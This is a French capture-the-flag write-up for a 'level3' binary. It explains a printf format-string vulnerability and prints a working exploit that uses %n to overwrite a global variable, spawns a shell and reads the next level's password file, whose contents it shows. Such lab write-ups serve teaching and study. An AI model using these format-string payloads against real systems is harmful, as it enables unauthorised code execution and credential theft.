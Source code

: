 #### Etape 1: Décompilation / Compréhension du programme.

Le programme appelle une fonction *v()*
Celle-ci contient un fgets, et un printf puis compare la valeur d'une variable globale qui si elle est égale a 64 éxécute un */bin/sh*

#### Etape 2: Identification des vulnérabilités

On peut voir que fgets ne lisant qu'un certain nombre de caractère ne pourra pas être exploité pour envoyer par exemple un shellcode.
Par contre printf a seulement en argument la variable récupéré par le fgets. De ce fait il est vulnérable a une format string attack.

#### Etape 3 : Plan d'attaque

Nous pouvons donc passez au fgets l'adresse de la variable globale et faire en sorte de modifier sa valeur grâce au %n qui modifie la variable, elle devient le nombre de caractères écris auparavant.

#### Etape 4 : Récolte d'informations

Il va donc falloir trouver l'adresse de la variable globale (nommée *m* dans le binaire) sur Ghidra on obtient : 0804988c.

Il faut ensuite trouver a quel moment dans la stack la valeur que nous écrivons est appelée.

```bash
python -c 'print "aaaa" + "%x %x %x %x %x"' | ./level3
aaaa200 b7fd1ac0 b7ff37d0 61616161 25207825
```

Notre valeur est donc la 4e adresse.

Nous devrons donc écrire 64 caractére a la 4e adresse, les 3 premieres font 19 caractères. L'adresse en fait 4 il y aura donc 41 caractère a rajouté.

#### Etape 5 : Execution

```bash
python -c 'print "\x8c\x98\x04\x08"+ "a"*41 + "%x%x%x%n"' | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa200b7fd1ac0b7ff37d0
Wait what?!
```

Il ne reste plus qu'a rendre stdin bloquant en éxécutant le programme et print le password.

```bash
(python -c 'print "\x8c\x98\x04\x08"+ "a"*41 + "%x%x%x%n"'; cat -) | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa200b7fd1ac0b7ff37d0
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
